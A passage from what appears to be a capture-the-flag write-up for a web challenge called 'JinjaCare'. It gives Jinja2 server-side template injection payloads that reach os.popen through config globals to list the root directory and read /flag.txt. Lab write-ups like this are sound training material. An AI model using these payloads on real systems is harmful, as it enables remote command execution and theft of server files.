 See that `test 49` is printed. <br>
&rarr; Now let's read the flag by using [Jinja2 SSTI](https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection#jinja2-remote-code-execution) to execute command.

```bash
{{config.__class__.__init__.__globals__['os'].popen('ls /').read()}}
```

![JinjaCare](/assets/img/hack-the-system-bug-bounty-ctf/web_jinja-care_ssti_3.png)

Found out there is a `flag.txt` file. <br>
&rarr; Let's read the flag.

```bash
{{config.__class__.__init__.__globals__['os'].popen('cat /flag.txt').read()}}
```
